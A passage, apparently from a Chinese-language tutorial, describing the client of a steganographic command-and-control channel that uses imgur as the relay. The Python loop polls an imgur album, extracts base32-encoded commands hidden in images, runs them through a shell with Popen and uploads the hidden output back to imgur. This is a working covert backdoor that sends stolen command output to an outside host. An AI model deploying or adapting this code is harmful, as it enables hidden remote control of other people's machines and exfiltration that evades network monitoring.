 用户输入命令后，它会使用 base32 对其进行编码，以避免破坏我们的消息字符串。然后将其隐藏在一个随机图像中，并上传到 imgur。客户端坐在一个循环中等待这条消息。这个循环的开始方式与我们的服务器相同；如果它看到一个新的图像，它会检查是否使用`uuid`寻址到这台机器，如果是，它将提取消息，将其转换为`Popen`将接受的友好格式，然后使用`Popen`运行命令。然后等待命令的输出，然后将其隐藏在一个随机图像中并上传到 imgur：

```py
loop = True
while loop:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}",  "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

服务器所需做的就是获取新图像，提取隐藏的输出，并将其显示给用户。然后它会给出一个新的提示，等待下一个命令。就是这样；这是一种非常简单的通过隐写术传递命令和控制数据的方法。
